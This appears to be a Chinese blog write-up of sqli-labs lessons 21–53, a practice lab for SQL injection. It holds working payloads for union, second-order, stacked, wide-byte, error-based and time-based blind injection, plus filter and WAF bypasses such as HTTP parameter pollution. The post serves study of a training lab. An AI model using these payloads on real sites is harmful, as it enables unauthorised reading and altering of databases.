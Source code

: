 ```yaml
---
layout: post 
title: "sqlilab做题总结（二）"
date: 2020-07-04
author: su29029
tags: Web
---
```


## sqlilab做题总结（二）

sqlilab是个值得反复做的东西，每次做都会有不同的思考。继续昨天的内容，今天的任务是Less21-Less53。

##### Less21-22

这两个题的提示是cookie注入，Less21的闭合方式是单引号加括号，Less22的闭合方式是双引号。全部采用联合查询注入即可。

##### Less23

Less23中注释无法使用，发现闭合方式是单引号，故可借助最后多出来的单引号在联合查询的最后一位进行闭合，payload如下：

```sql
?id=0' union select 1,2,'3  # 最后一个'3将结合原先sql语句中存在的单引号，实现闭合。
```

随后就是联合查询注入，不再赘述。

##### Less24

Less24是二次注入。这个题首先观察页面，发现有登录，注册页面。随意注册一个账号登录上去后发现有个登录后显示信息的页面，可以修改密码，可以退出登录。题目提示二次注入，考虑修改密码的逻辑，猜测修改密码的地方没有进行转义，尝试注册```admin' --```的用户，登录上去后修改密码，随后退出，使用admin用户名登录，密码为刚刚修改的密码，发现成功登录。

进行白盒测试，审计代码，发现登录后修改密码的逻辑中存在漏洞，获取的用户名是从session中获取的，且没有进行转义，这时如果注册了一个包含注入代码的username，这里获取到的username就会改变update语句的结构，造成二次注入。

##### Less25/Less25a

这两个题过滤了and和or，and可以通过&&绕过，or可以通过||绕过，其他的就正常操作即可。注意闭合方式。

##### Less26/26a

这两个题过滤空格和注释，注释可以通过巧妙闭合单引号来避免掉注释的使用，空格的绕过方法有以下几种，可以逐一尝试：

```
1./**/绕过，/**/相当于空格
2.%a0绕过，url编码时这个被正则表达式识别为中文字符，不会过滤，而mysql不能识别，不能识别的字符会变成一个空格。
3.巧用小括号(特定情况下)
```

这里通过%0a绕过即可。

##### Less27/27a/28/28a

这四个题过滤了union select.通过试验发现，可以通过任意位大小写，双写等方法绕过。其中Less27a整体过滤了union select这个词组，这里通过%a0(union%a0select)即可绕过。(对于注释和空格的过滤可继续使用上面提到的方法绕过)。

给一个这四个题全部绕过的payload(只需考虑不同的引号/括号闭合方式，以28a为例)：

```sql
?id=0')%a0unIOn%a0SElEct%a01,2,('3
```

##### Less29/30/31

这两个题提示WAF，但是自己做测试的时候并没有发现在哪里过滤什么东西了...直接联合查询好像没啥问题。后来看了别人的wp，发现了这里的特殊点：根据不同的Web服务器和应用服务器特性，在遇到相同参数时，读取的参数是不一样的(但是对这个题貌似没用诶....)

具体，例如```index.php?id=1&id=2```,如果是apache(php)服务器，将解析最后一个id参数，如果是tomcat(jsp)服务器，则解析第一个参数，Apache(Perl(CGI))解析第一个参数，Apache(python)全部获取，返回list。

这里有个问题，如果传入index.jsp?id=1&id=2,那么最终返回客户端的是哪个参数呢？答案是最后一个参数，因为最终为客户端提供服务的是web服务器，也就是Apache,Apache解析最后一个参数，故返回的是id=2。

这里的一个启发是，在实际的Web应用中，经常会遇到两层服务器的情况，而我们往往是在tomcat应用服务器层进行过滤，功能类似WAF。

而正因为解析参数的不同，我们此处可以利用该原理绕过 WAF 的检测。如 payload：index.jsp?id=1&id=0 or 1=1--+，tomcat 只检查第一个参数id=1，而对第二个参数id=0 or 1=1--+不做检查，直接传给了 apache，apache 恰好解析第二个参数，便达到了攻击的目的。

(这个操作的专业叫法是：HTTP参数污染攻击)

##### Less32/33

这两个题是get型宽字节注入。宽字节注入的原理是url编码将一个精心构造好的url编码字符传入，由于后台mysql设置GBK编码，php为GBK编码，函数执行的是添加ascii码，假如我们传入```%df'```,最终传入mysql的是%df%5c%27,其中%df%5c会被识别成一个宽字节，这时原本添加的\转义就被吃掉了，从而实现了注入的目的。

本题payload：

```sql
?id=0%df' union select 1,database(),3 %23
```

##### Less34

post型宽字节注入，将utf8转为utf16即可绕过。payload：

```
�' union select 1,database(),3#
```

##### Less35

数字型，escape函数没用，直接注入即可。

##### Less36

同Less33,%df宽字节注入。

##### Less37

同Less34,注意一下这次只有两列即可。

##### Less38-41

堆叠注入。指的是在某些情况下，后端的sql语句执行函数可以执行多条命令(例如mysqli_multi_query())，这个时候我们可以通过;来结束前一条sql语句，随后再在分号后面写入sql，从而实现“堆一堆”sql语句进行注入。而;后的语句理论上没有过滤的话则可以为所欲为。
不过堆叠注入利用的条件有限，因为一般情况下后台的sql执行函数为安全起见只允许执行单一sql，分号后的语句将会被忽略。

payload(注意引号闭合方式，此处以Less38为例):

```sql
1';insert into users(id,username,password) values (100,"a","b"); %23
```

##### Less42/43/44/45

这几个题均需在passwd处进行堆叠注入。42,43有回显，44,45无回显。payload:

```sql
1';insert into users(id,username,password) values (100,"a","b"); %23
```

##### Less46/47/48/49

order by注入，由于不在where语句位置，故无法使用联合查询注入，这里主要采用报错注入和盲注的方式。payload: 

```sql
Less46:sort=1 and updatexml(1,concat('~',database()),1) # 报错注入
Less47:sort=1' and if(ascii(substr(database(),1,1))=115,0,sleep (5)) %23
Less48:sort=1 and if(ascii(substr(database(),1,1))=115,sleep(5),0) %23
Less49:sort=1 and if(ascii(substr(database(),1,1))=115,sleep(5),0) %23
```

##### Less50/51/52/53

order by+堆叠注入。payload如下：

```sql
1';insert into users(id,username,password) values (500,"sss","dddd");%23
```

